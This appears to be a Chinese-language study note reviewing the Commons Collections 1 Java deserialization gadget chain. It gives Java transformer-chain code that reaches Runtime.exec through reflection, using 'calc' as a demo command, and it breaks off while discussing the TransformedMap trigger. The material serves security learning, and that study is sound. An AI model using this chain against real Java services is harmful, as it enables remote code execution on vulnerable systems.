 # 回顾CC1

简单回顾一下CC1。

jdk8u65版本及更早版本。

有两条链，分别利用了TransformedMap和LazyMap类。

首先回顾一下相同的部分：

InvokerTransformer、ConstantTransformer和ChainedTransformer。

InvokerTransformer：transform函数可以调用传入对象的任意方法。

ConstantTransformer：transform函数直接返回一个对象。

ChainedTransformer：transform函数依次调用传入的Transform子类。

结合起来：

```java
Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.getRuntime()),
            new InvokerTransformer("exec",new Class[] {String.class},new Object[] {"calc"})
        };
Transformer transformerChain = new ChainedTransformer(transformers);
```

但是因为Runtime没有实现java.io.Serializable接口，所以需要用反射来获取Runtime对象。

```java
Method method = Runtime.class.getMethod("getRuntime");
Runtime r= (Runtime) method.invoke(null);
r.exec("calc");
```

修改后：

```java
Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[] {String.class,Class[].class},new Object[] {"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",new Class[] {Object.class,Object[].class},new Object[] {null, new Object[0]}),
            new InvokerTransformer("exec",new Class[] {String.class},new String[] {"calc"})
        };
Transformer transformerChain = new ChainedTransformer(transformers);
```

如何触发transformerChain的transform呢？

## 1.TransformedMap

TransformedMap构造函数的作用域是protected，但是有一个static函数decorate会调用构造方法，且checkSetValue函数调用了transform。这就可以创建TransformedMap的对象并且通过反射调用CheckSetValue，传入的参数为transformerChain。

但是无法进一步找到利用此方法的函数或类，需要另寻他法。
